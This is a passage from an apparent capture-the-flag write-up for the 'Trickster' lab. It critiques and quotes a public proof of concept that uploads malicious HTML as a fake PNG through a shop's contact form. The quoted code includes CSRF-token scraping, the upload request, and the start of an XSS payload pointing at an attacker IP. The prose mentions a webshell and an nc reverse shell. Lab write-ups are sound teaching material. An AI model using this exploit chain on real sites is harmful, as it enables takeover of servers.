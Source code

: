 This is a pretty bad POC, but at the time of Trickster’s release, it was the only POC available. There are likely better ones available now. I don’t mean that to insult the author, but it has a ton of moving pieces, and it requires a good bit of editing to get it to work. It does things that the user could do fairly easily (starting a webserver to host a file or `nc` to catch a reverse shell), but not others that it could do easily that are hard for the user, like editing inside a zip file. It prints out things like listening on port X when it’s actually listening on port Y. Getting this working is a bit tricky.

#### exploit.py

The `exploit.py` file is going to generate the XSS, taking a given `.html` file and submitting it as an attachment in the contact form as a PNG. First it has to get the CSRF token and cookie from the page:

```

    url = f"{host_url}/contact-us"

    response = requests.get(url)
    response.raise_for_status()

    soup = BeautifulSoup(response.text, 'html.parser')
    token = soup.find('input', {'name': 'token'})['value']
    cookies = response.cookies

```

Then it submits the XSS:

```

    files = {
        'fileUpload': ('test.png', html_content, 'image/png'),
    }

    data = {
        'id_contact': '2',
        'from': email,
        'message': message_content,
        'url': '',
        'token': token,
        'submitMessage': 'Send'
    }

    response = requests.post(url, files=files, data=data, cookies=cookies)

```

Then it polls the expected location of the uploaded theme webshell until it finds a reverse shell.

#### exploit.html

The `exploit.html` file has some fixed variables at the top:

```

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta viewport="width=device-width, initial-scale=1.0">
    <title>Exploit</title>
</head>
<body>
    <script>
        const baseUrl = 'http://shop.trickster.htb';
        const path = 'admin634ewutrx1jgitlooaj';
        const httpServerIp = '10.10.14.6';
```